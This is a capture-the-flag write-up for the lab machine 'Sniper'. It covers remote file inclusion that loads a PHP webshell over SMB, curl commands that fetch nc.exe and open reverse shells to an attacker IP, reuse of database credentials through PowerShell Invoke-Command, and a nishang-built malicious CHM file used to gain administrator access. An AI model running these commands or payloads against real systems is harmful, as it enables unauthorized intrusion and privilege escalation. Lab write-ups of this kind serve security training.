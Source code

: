 # Sniper

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.229.6
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 09:19 EDT
Nmap scan report for 10.129.229.6
Host is up (0.011s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49667/tcp open  unknown
```

### Sniper Co

Port 80 is hosting a corporate website:

<figure><img src="../../../.gitbook/assets/image (178).png" alt=""><figcaption></figcaption></figure>

I clicked all the services, and found that Our Services works and brings us to `/blog/index.php`.&#x20;

<figure><img src="../../../.gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>

When changing languages, I noticed this:

<figure><img src="../../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

This looks vulnerable to LFI, and since this is a Windows machine, we can try to use `\\` to access our machien via SMB. I hosted a `cmd.php` webshell using `smbserver.py`. Then, we can try to access it via `curl`.

```bash
curl 'http://10.129.229.6/blog/?lang=\\10.10.14.13\share\cmd.php&cmd=whoami'
<TRUNCATED>
nt authority\iusr
```

This works! We can now get a reverse shell using `nc.exe`.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">curl 'http://10.129.229.6/blog/?lang=\\10.10.14.13\share\cmd.php&#x26;cmd=powershell+-c+wget+10.10.14.13/nc64.exe+-Outfile+C:\windows\tasks\nc.exe'

<strong>curl 'http://10.129.229.6/blog/?lang=\\10.10.14.13\share\cmd.php&#x26;cmd=C:\windows\tasks\nc.exe+-e+cmd.exe+10.10.14.13+4444'
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Chris Credentials

Within the files for the website, we can see a `user` directory:

```
C:\inetpub\wwwroot>dir
Volume in drive C has no label.
Volume Serial Number is AE98-73A8

Directory of C:\inetpub\wwwroot

04/11/2019  10:51 AM    <DIR>          .
04/11/2019  10:51 AM    <DIR>          ..
04/11/2019  05:23 AM    <DIR>          blog
04/11/2019  05:23 AM    <DIR>          css
04/11/2019  05:23 AM    <DIR>          images
04/11/2019  05:22 PM             2,635 index.php
04/11/2019  05:23 AM    <DIR>          js
04/11/2019  05:23 AM    <DIR>          scss
10/01/2019  08:44 AM    <DIR>          user
               1 File(s)          2,635 bytes
               8 Dir(s)   2,415,136,768 bytes free
```

Within that, there is a `db.php` file that contains credentials:

```php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

This might be the credentials for the user, `Chris`. When we check the user's permissions, we se that he's part of the Remote Management Use group, meaning that we can use this credentials using Remote Powershell to get RCE.

```
C:\inetpub\wwwroot\user>net user chris
User name                    Chris
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            4/11/2019 6:53:37 AM
Password expires             Never
Password changeable      4/11/2019 6:53:37 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   8/15/2019 12:23:43 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Users                
Global Group memberships     *None                 
The command completed successfully.
```

This can be done like so:

```powershell
$pass = ConvertTo-SecureString "36mEAhz/B8xQ~2VM" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("sniper\chris", $pass)
Invoke-Command -Computer localhost -ScriptBlock { whoami } -Credential $cred
# for shell
Invoke-Command -Computer localhost -ScriptBlock { \\10.10.14.13\share\nc64.exe -e cmd.exe 10.10.14.13 4444 } -Credential $cred
```

<figure><img src="../../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

Now, we can execute `nc.exe` file to get another reverse shell and grab the user file.

<figure><img src="../../../.gitbook/assets/image (160) (4).png" alt=""><figcaption></figcaption></figure>

### CHM

As the user, we can view `C:\Docs`. Inside, there are some files, including a note.

{% code overflow="wrap" %}
```
C:\Docs>type note.txt
Hi Chris,
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
```
{% endcode %}

Within the user's Downloads file, we find a `chm` file.

```
C:\Users\Chris\Downloads>ir
dir
 Volume in drive C has no label.
 Volume Serial Number is AE98-73A8

 Directory of C:\Users\Chris\Downloads

04/11/2019  08:36 AM    <DIR>          .
04/11/2019  08:36 AM    <DIR>          ..
04/11/2019  08:36 AM            10,462 instructions.chm
               1 File(s)         10,462 bytes
               2 Dir(s)   2,421,116,928 bytes free
```

We can transfer this back to our machine via SMB for further analysis. This is a Windows file, so we can open it on our Windows machine.

<figure><img src="../../../.gitbook/assets/image (68) (4).png" alt=""><figcaption></figcaption></figure>

Interesting. CHM is exploitable by us, and we can use `nishang` to do so. All we need to do is use `Out-CHM.ps1` to create a CHM file with a payload.

```powershell
# on Windows
Out-CHM -Payload "\\10.10.14.13\share\nc.exe -e cmd.exe 10.10.14.13 4444" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

This would generate another CHM file, of which we just need to download it to the machine and rename it as `instructions.chm` and place it within `C:\Docs`. Then, we just need to wait a bit and our listener port will catch a reverse shell as the administrator.&#x20;

```
$ nc -lnvp 4444                        
listening on [any] 4444 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.229.6] 49675
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\blog>whoami
whoami
sniper\administrator
```
